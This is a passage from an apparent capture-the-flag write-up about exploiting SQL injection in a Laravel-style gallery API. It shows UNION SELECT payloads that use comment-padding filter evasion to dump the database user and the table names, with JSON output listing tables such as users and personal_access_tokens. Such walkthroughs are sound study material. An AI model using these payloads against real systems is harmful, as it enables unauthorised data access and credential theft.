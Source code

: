 Now I can use that template to make queries into the database. Where I have “2” and “3” are the only things that can take strings, so I’ll focus there. If I replace “2” with “user()” and “3” with “database()”,  `')/**/UNION/**/SELECT/**/1,user(),database(),4,5#`
it shows the results:
```
{
    "status":"success",
    "data":[
        {
            "id":10,
            "file":"laravel@localhost",
         	"genre":"intentions",
         	"created_at":"1970-01-01T00:00:04.000000Z",
         	"updated_at":"1970-01-01T00:00:05.000000Z",
         	"url":"\/storage\/laravel@localhost"
        }
    ]
}
```

I’ll change genres to get the list of databases and tables:
```
')/**/UNION/**/SELECT/**/1,table_schema,table_name,4,5/**/from/**/information_schema.tables/**/where/**/table_schema/**/!=/**/'information_schema'#
```

This will get the database name in the file and the table name in the genre of the output, and it will skip tables in the information_schema table (as those are standard and well defined). It returns:

```
{
    "status":"success",
    "data":[
        {
            "id":1,
            "file":"intentions",
            "genre":"gallery_images",
            "created_at":"1970-01-01T00:00:04.000000Z",
            "updated_at":"1970-01-01T00:00:05.000000Z",
            "url":"\/storage\/intentions"
        },
        {
            "id":1,
            "file":"intentions",
            "genre":"personal_access_tokens",
            "created_at":"1970-01-01T00:00:04.000000Z",
            "updated_at":"1970-01-01T00:00:05.000000Z",
            "url":"\/storage\/intentions"
        },
        {
            "id":1,
            "file":"intentions",
            "genre":"migrations",
            "created_at":"1970-01-01T00:00:04.000000Z",
            "updated_at":"1970-01-01T00:00:05.000000Z",
            "url":"\/storage\/intentions"
        },
        {
            "id":1,
            "file":"intentions",
            "genre":"users",
            "created_at":"1970-01-01T00:00:04.000000Z",
            "updated_at":"1970-01-01T00:00:05.000000Z",
            "url":"\/storage\/intentions"
        }
```